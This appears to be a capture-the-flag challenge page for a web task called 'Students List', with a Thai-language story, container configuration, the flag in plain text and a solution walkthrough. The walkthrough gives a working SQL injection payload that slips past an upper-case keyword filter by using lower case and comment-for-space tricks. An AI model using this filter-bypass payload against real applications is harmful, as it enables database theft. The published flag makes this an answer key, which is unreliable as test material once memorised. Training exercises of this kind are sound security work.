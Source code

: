 # Students List

| Category | Difficulty | Point |
| :-: | :-: | :-: |
| Web | Normal | 200 |

สมพงษ์อยากไปงาน Event Blue Archive Big Fan แต่พอไปทางเข้า ดันเจอด่านตรวจ โดยที่ให้ตอบชื่อจากรูปที่โจทย์มาให้ สมพงษ์เก่งพอจะรู้ว่ารูปนี้คือใคร แต่ปัญหาคือเขาดันสะกดเปะๆ ไม่ถูก ด้วยความที่เข้าเป็น vibe coder เขาจึง speed run ทำเว็บเพื่อแสดงผลชื่อตามที่ search ชื่อก็ได้รายชื่อตัวละครมาแล้ว และเพื่อความปลอดภัย เขาจึงป้องกันการโดน SQL Injection โดยการ Block คำอันตราย และ Space เขามั่นใจว่ายังไงก็ไม่โดนแล้ว และแล้วเขาก็เจอคุณในงาน ถึงพูดคุยกันเรื่องเว็บที่เขาสร้าง และเขาก็ได้ท้าคุณผู้เป็น Hacker ผู้มีประสบการณ์ โดยที่เขาท้ามาว่า ให้หาข้อมูลที่ถูกซ่อนไว้ใน database ที่อยู่ใน table secret_flag

Format: `CSUBRU{...}`

---

## Hints

Hint: ถูก block แค่ Upper Case

---

## Configuration

| Name | Value |
| :- | :- |
| Title | Students List |
| Type | Static Container |
| Category | Web |
| Max Attempts Allowed |  |
| Blood Bonus |  |
| Container Image | `ic-students-list` |
| Service Port | 80 |
| CPU Limit (0.1 CPUs) |  |
| Memory Limit (MB) |  |
| Storage Limit (MB) |  |

### Flags

- `CSUBRU{sp4c3_is_34sy_70_by_p4ss_0r_n07?_hm}`

### Build

- `docker build -t ic-students-list build`

---

## Analysis

1. Submit test queries to observe that the application strips spaces and rejects any upper-case SQL keywords such as `UNION` or `SELECT`.
2. Swap spaces for `/**/` comments and write your payload entirely in lower case to bypass the filter.
3. Use an input like:
   ```text
   '/**/union/**/select/**/9999,flag,'x','y'/**/from/**/secret_flag--
   ```
   inside the search box to break out of the `LIKE` clause.
4. The response will include a synthetic row with the flag value (`CSUBRU{sp4c3_is_34sy_70_by_p4ss_0r_n07?_hm}`).
